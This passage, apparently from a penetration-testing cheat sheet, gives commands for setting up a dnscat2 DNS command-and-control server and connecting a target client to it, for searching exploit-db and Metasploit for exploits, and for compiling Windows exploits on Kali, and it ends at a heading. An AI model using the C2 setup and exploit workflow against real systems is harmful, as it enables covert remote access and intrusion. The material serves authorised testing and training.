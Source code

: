 	Attacking Machine
		Installtion:
			apt-get update
			apt-get -y install ruby-dev git make g++
			gem install bundler
			git clone https://github.com/iagox86/dnscat2.git
			cd dnscat2/server
			bundle install

		Run dnscat2:
			ruby ./dnscat2.rb
			dnscat2> New session established: 1422
			dnscat2> session -i 1422

	Target Machine:
		https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/

	dnscat --host <dnscat server_ip>

###  BOF / Exploit
	
	*Find exploits for enumerated hosts / services.*
		Command 	Description
			searchsploit windows 2003 | grep -i local
			Search exploit-db for exploit, in this example windows 2003 + local esc
	
			site:exploit-db.com exploit kernel <= 3
			Use google to search exploit-db.com for exploits

			grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/*
			Search metasploit modules using grep - msf search sucks a bit


	Install local copy of exploit-db:
		 searchsploit –u
		 searchsploit apache 2.2
		 searchsploit "Linux Kernel"
		 searchsploit linux 2.6 | grep -i ubuntu | grep local

	Compiling Windows Exploits on Kali
		  wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
		  wine mingw-get-setup.exe
		  select mingw32-base
		  cd /root/.wine/drive_c/windows
		  wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
		  cd /root/.wine/drive_c/MinGW/bin
		  wine gcc -o ability.exe /tmp/exploit.c -lwsock32
		  wine ability.exe  

	Cross Compiling Exploits
		gcc -m32 -o output32 hello.c (32 bit)
		gcc -m64 -o output hello.c (64 bit)

	**Exploiting Common Vulnerabilities**
	